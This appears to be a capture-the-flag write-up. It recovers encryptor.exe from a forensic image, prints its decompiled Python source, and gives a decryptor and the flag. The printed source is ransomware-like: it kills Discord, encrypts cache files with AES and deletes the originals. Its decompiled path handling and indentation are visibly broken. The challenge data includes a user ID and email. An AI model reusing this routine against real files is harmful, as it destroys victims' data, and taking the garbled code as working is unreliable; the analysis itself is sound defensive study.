

In this challenge you are given a file format `.ad1` which contains a file in a victim's computer, then I opened the file using FTK imager


As you can see, there is a file in the `C:/Users/Admin/Downloads` directory named `encryptor.exe`.

Dump the `encryptor.exe` file then decompile and analyze the results of the pseudocode 


The results of the decompilation, we get a pseudocode that contains something like a python compiler, and I decided to check the strings representation


And as I suspected, this `encrypor.exe` file was made based on python, then we can try to decompile it (because python has a different way to decompile it, we need 2 decompilations, the first exe to pyc, then pyc to py)

This is the actually source code of the program:
```py
import json
import os
from pathlib import Path
import psutil
from Cryptodome.Cipher import AES
from Cryptodome.Protocol.KDF import PBKDF2
from Cryptodome.Util.Padding import pad

def get_appdata_path() -> Path:
    if os.getenv('APPDATA') is None:
        raise RuntimeError('APPDATA environment variable not set??')
    return Path(str(os.getenv('APPDATA'))).resolve()
if __name__ == '__main__':
    for proc in psutil.process_iter():
        if proc.name() == 'Discord.exe':
            print(f'Killing Discord (pid {proc.pid})')
            try:
                proc.kill()
            except psutil.NoSuchProcess:
                print('Process is already dead, ignoring')
    sentry_path = (get_appdata_path() or 'Discord') | 'sentry' | 'scope_v3.json'
    with open(sentry_path, 'rb') as f:
        sentry_data = json.load(f)
    user_id = sentry_data['scope']['user']['id']
    salt = b'BBBBBBBBBBBBBBBB'
    key = PBKDF2(str(user_id).encode(), salt, 32, 1000000)
    iv = b'BBBBBBBBBBBBBBBB'
    cache_path = (get_appdata_path() * 'Discord' + 'Cache') * 'Cache_Data'
    print(f'Encrypting files in {cache_path}...')
    for file in cache_path.iterdir():
        if not file.is_file():
            continue
        if file.suffix == '.enc':
            print(f'Skipping {file} (already encrypted)')
            continue
        try:
            with open(file, 'rb') as fp1:
                data = fp1.read()
        except PermissionError:
                print(f'Skipping {file} (file open)')
                continue
            cipher = AES.new(key, AES.MODE_CBC, iv=iv)
            ciphertext = cipher.encrypt(pad(data, 16))
            print(f'Encrypting {file}...')
            with open(file.with_suffix('.enc'), 'wb') as fp2:
                fp2.write(ciphertext)
            file.unlink()
```

 the `encryptor` does 3 things, the first if the discord program `Discord.exe` is running, it will be immediately killed by the encryptor, then the encryptor encrypts all files located in `%APPDATA%\Discord\Cache\Cache_Data\` and finally, the encryptor takes the `user_id` from Discord's `sentry` file and uses it to derive the AES key (via PBKDF2)

here we can check in the `Cache_Data` directory there are many files that have been encrypted



To decrypt/recovery the files, we must find the `user_id` first in `sentry` directory, there is file named `scope_v3.json`

```json
{"scope":{"breadcrumbs":[{"timestamp":1738366371.28,"category":"console","level":"log","message":"Discord 1.0.9180"},{"timestamp":1738366371.358,"category":"electron","message":"app.will-finish-launching","type":"ui"},{"timestamp":1738366371.358,"category":"electron","message":"app.ready","type":"ui"},{"timestamp":1738366371.358,"category":"electron","message":"app.session-created","type":"ui"},{"timestamp":1738366371.358,"category":"console","level":"log","message":"Starting app."},{"timestamp":1738366371.373,"category":"console","level":"log","message":"Starting updater."},{"timestamp":1738366371.373,"category":"console","level":"log","message":"Determined current Windows architecture: x64"},{"timestamp":1738366371.373,"category":"console","level":"log","message":"splashScreen.initSplash(false)"},{"timestamp":1738366371.389,"category":"console","level":"log","message":"CDM component API found"},{"timestamp":1738366371.42,"category":"electron","message":"app.web-contents-created","type":"ui"},{"timestamp":1738366371.42,"category":"electron","message":"app.browser-window-created","type":"ui"},{"timestamp":1738366371.483,"category":"console","level":"log","message":"blackbox: 1/31/2025, 3:32:51 PM PST 0 \n\n----------------------------------------------"},{"timestamp":1738366371.483,"category":"console","level":"log","message":"CDM completed with status: cdm-ready-success"},{"timestamp":1738366371.504,"category":"electron","message":"app.gpu-info-update","type":"ui"},{"timestamp":1738366371.504,"category":"electron","message":"app.gpu-info-update","type":"ui"},{"timestamp":1738366371.513,"category":"console","level":"log","message":"blackbox: 1/31/2025, 3:32:51 PM PST 1 Discord starting: {\"newUpdater\":true,\"releaseChannel\":\"stable\",\"version\":\"1.0.9180\"}, modulepath: C:\\Users\\Admin\\AppData\\Roaming\\discord\\module_data"},{"timestamp":1738366371.528,"category":"console","level":"log","message":"blackbox: 1/31/2025, 3:32:51 PM PST 2 ✅ webContents.created web1 \"index.html\""},{"timestamp":1738366371.531,"category":"console","level":"log","message":"blackbox: 1/31/2025, 3:32:51 PM PST 3 ✅ window.created win1 \"discord\""},{"timestamp":1738366371.665,"category":"console","level":"log","message":"splashScreen: SPLASH_SCREEN_READY"},{"timestamp":1738366371.668,"category":"console","level":"log","message":"splashScreen.webContentsSend: SPLASH_SCREEN_QUOTE SPLASH_SCREEN_QUOTE [ 'Hold Tight — Loading Discord' ]"},{"timestamp":1738366371.69,"category":"electron","message":"window.show","type":"ui","data":{"id":1,"url":"app:///app_bootstrap/splash/index.html"}},{"timestamp":1738366371.69,"category":"console","level":"log","message":"splashScreen.updateSplashState checking-for-updates checking-for-updates {}"},{"timestamp":1738366371.69,"category":"console","level":"log","message":"splashScreen.webContentsSend: SPLASH_UPDATE_STATE SPLASH_UPDATE_STATE [ { status: 'checking-for-updates' } ]"},{"timestamp":1738366371.693,"category":"electron","message":"renderer.dom-ready","type":"ui","data":{"id":1,"url":"app:///app_bootstrap/splash/index.html"}},{"timestamp":1738366371.72,"category":"console","level":"log","message":"blackbox: 1/31/2025, 3:32:51 PM PST 4 ✅ webContents.did-finish-load web1"},{"timestamp":1738366371.886,"category":"console","level":"log","message":"Checking CDM status..."},{"timestamp":1738366371.887,"category":"console","level":"log","message":"CDM completed with status: cdm-ready-success"},{"timestamp":1738366371.887,"category":"console","level":"log","message":"splashScreen.launchMainWindow: false"},{"timestamp":1738366371.967,"category":"electron","message":"powerMonitor.newListener","type":"ui"},{"timestamp":1738366371.99,"category":"electron","message":"app.web-contents-created","type":"ui"},{"timestamp":1738366371.99,"category":"electron","message":"app.browser-window-created","type":"ui"},{"timestamp":1738366371.994,"category":"console","level":"log","message":"Optional module ./ElectronTestRpc was not included."},{"timestamp":1738366372.12,"category":"console","level":"log","message":"splashScreen.updateSplashState launching launching {}"},{"timestamp":1738366372.121,"category":"console","level":"log","message":"splashScreen.webContentsSend: SPLASH_UPDATE_STATE SPLASH_UPDATE_STATE [ { status: 'launching' } ]"},{"timestamp":1738366372.121,"category":"console","level":"log","message":"blackbox: 1/31/2025, 3:32:52 PM PST 5 ✅ webContents.created web2 \"\""},{"timestamp":1738366372.149,"category":"console","level":"log","message":"blackbox: 1/31/2025, 3:32:52 PM PST 6 ✅ window.created win2 \"Discord\""},{"timestamp":1738366373.32,"category":"console","data":{"arguments":["Initializing voice engine with audio subsystem: standard"],"logger":"console"},"level":"log","message":"Initializing voice engine with audio subsystem: standard"},{"timestamp":1738366373.646,"category":"electron","message":"renderer.dom-ready","type":"ui","data":{"id":2,"url":"https://discord.com/app?_=1738366371960"}},{"timestamp":1738366375.75,"category":"console","level":"log","message":"mainScreen.on(did-finish-load) false false"},{"timestamp":1738366375.751,"category":"console","level":"log","message":"blackbox: 1/31/2025, 3:32:55 PM PST 7 ✅ webContents.did-finish-load web2"},{"timestamp":1738366375.752,"category":"console","level":"log","message":"splashScreen.pageReady"},{"timestamp":1738366375.854,"category":"electron","message":"window.show","type":"ui","data":{"id":2,"url":"https://discord.com/app?_=1738366371960","title":""}},{"timestamp":1738366375.901,"category":"electron","message":"window.hide","type":"ui","data":{"id":1,"url":"app:///app_bootstrap/splash/index.html"}},{"timestamp":1738366375.902,"category":"electron","message":"window.close","type":"ui","data":{"id":1,"url":"app:///app_bootstrap/splash/index.html"}},{"timestamp":1738366375.908,"category":"electron","message":"window.focus","type":"ui","data":{"id":2,"url":"https://discord.com/app?_=1738366371960","title":""}},{"timestamp":1738366375.908,"category":"electron","message":"app.browser-window-focus","type":"ui"},{"timestamp":1738366375.916,"category":"electron","message":"renderer.destroyed","type":"ui","data":{"id":1,"url":"app:///app_bootstrap/splash/index.html"}},{"timestamp":1738366375.92,"category":"electron","message":"window.closed","type":"ui","data":{"id":1,"url":"app:///app_bootstrap/splash/index.html"}},{"timestamp":1738366375.94,"category":"console","level":"log","message":"blackbox: 1/31/2025, 3:32:55 PM PST 8 window.close win1"},{"timestamp":1738366375.945,"category":"console","level":"log","message":"blackbox: 1/31/2025, 3:32:55 PM PST 9 webContents.destroyed web1"},{"timestamp":1738366375.947,"category":"console","level":"log","message":"blackbox: 1/31/2025, 3:32:55 PM PST 10 window.closed win1"},{"timestamp":1738366376.123,"category":"console","data":{"arguments":["deffering audio subsystem switch to standard until next restart"],"logger":"console"},"level":"log","message":"deffering audio subsystem switch to standard until next restart"},{"timestamp":1738366378.526,"category":"electron","message":"app.gpu-info-update","type":"ui"},{"timestamp":1738366378.529,"category":"electron","message":"app.gpu-info-update","type":"ui"},{"timestamp":1738366378.531,"category":"ui.click","message":"div.tabBody__133bf > div#online-tab.peopleColumn__133bf"},{"timestamp":1738366378.605,"category":"electron","message":"app.gpu-info-update","type":"ui"},{"timestamp":1738366378.613,"category":"electron","message":"app.gpu-info-update","type":"ui"},{"timestamp":1738366378.698,"category":"electron","message":"app.gpu-info-update","type":"ui"},{"timestamp":1738366379.388,"category":"ui.click","message":"div.layout__20a53.highlighted__20a53"},{"timestamp":1738366380.338,"category":"ui.click","message":"button.button__201d5.lookFilled__201d5.colorWhite__201d5.sizeMedium__201d5.fullWidth__201d5.grow__201d5[type=\"button\"]"},{"timestamp":1738366383.088,"category":"ui.click","message":"svg"},{"timestamp":1738366384.48,"category":"ui.click","message":"div.contents__201d5"},{"timestamp":1738366384.846,"category":"electron","message":"window.blur","type":"ui","data":{"id":2,"url":"https://discord.com/channels/@me/1334199210832035862"}},{"timestamp":1738366384.846,"category":"electron","message":"app.browser-window-blur","type":"ui"},{"timestamp":1738366388.041,"category":"electron","message":"window.focus","type":"ui","data":{"id":2,"url":"https://discord.com/channels/@me/1334199210832035862"}},{"timestamp":1738366388.041,"category":"electron","message":"app.browser-window-focus","type":"ui"},{"timestamp":1738366389.746,"category":"electron","message":"window.blur","type":"ui","data":{"id":2,"url":"https://discord.com/channels/@me/1334199210832035862"}},{"timestamp":1738366389.746,"category":"electron","message":"app.browser-window-blur","type":"ui"}],"attachments":[],"contexts":{},"tags":{"nativeBuildNumber":"58115"},"extra":{},"user":{"id":"1334198101459861555","username":"anorak644","email":"anorak644@gmail.com"},"fingerprint":[],"eventProcessors":[],"propagationContext":{"traceId":"70fc507d6c974958b4608f5ad2b6c434","spanId":"9c1248a796f8f2a8"},"sdkProcessingMetadata":{}},"event":{"contexts":{"app":{"app_name":"discord","app_version":"1.0.9180","app_start_time":"2025-01-31T23:32:50.780Z"},"os":{"name":"Windows","version":"10.0.19045"},"browser":{"name":"Chrome"},"chrome":{"name":"Chrome","type":"runtime","version":"128.0.6613.186"},"device":{"arch":"x64","family":"Desktop"},"node":{"name":"Node","type":"runtime","version":"20.18.1"},"runtime":{"name":"Electron","version":"32.2.7"}},"environment":"stable","release":"1.0.9180","user":{"ip_address":"{{auto}}"},"tags":{"event.origin":"electron","event.environment":"javascript","event.process":"browser","event_type":"javascript"}}}

```

here:
```json
"user": {
  "id": "1334198101459861555",
  "username": "anorak644",
  "email": "anorak644@gmail.com"
}
```

and as we can see before, the `encryptor.exe` using:
```py
salt = b'BBBBBBBBBBBBBBBB'
iv = b'BBBBBBBBBBBBBBBB'
key = PBKDF2(str(user_id).encode(), salt, 32, 1000000)
```

with this information, we can reproduce key and decrypt all encrypted files

and here is the decryptor:
```py
import os
from Cryptodome.Cipher import AES
from Cryptodome.Protocol.KDF import PBKDF2
from Cryptodome.Util.Padding import unpad
from pathlib import Path
import subprocess

user_id = "1334198101459861555"
salt = b"BBBBBBBBBBBBBBBB"
iv = b"BBBBBBBBBBBBBBBB"
key = PBKDF2(user_id.encode(), salt, 32, 1000000)

enc_dir = Path("./Cache_Data")
for encfile in enc_dir.glob("*.enc"):
    try:
        data = encfile.read_bytes()
        cipher = AES.new(key, AES.MODE_CBC, iv)
        dec = unpad(cipher.decrypt(data), 16)
        decpath = encfile.with_suffix(".dec")
        decpath.write_bytes(dec)
        result = subprocess.run(["file", str(decpath)], capture_output=True, text=True)
        if "ASCII" in result.stdout or "image" in result.stdout or "Zip" in result.stdout:
            print(f"[+] {encfile.name} -> {result.stdout.strip()}")
    except Exception as e:
        pass
```


and open those file, u will got this


Flag: `USCG{LOOK_MA_I_DEOBFUSCATED_IT}`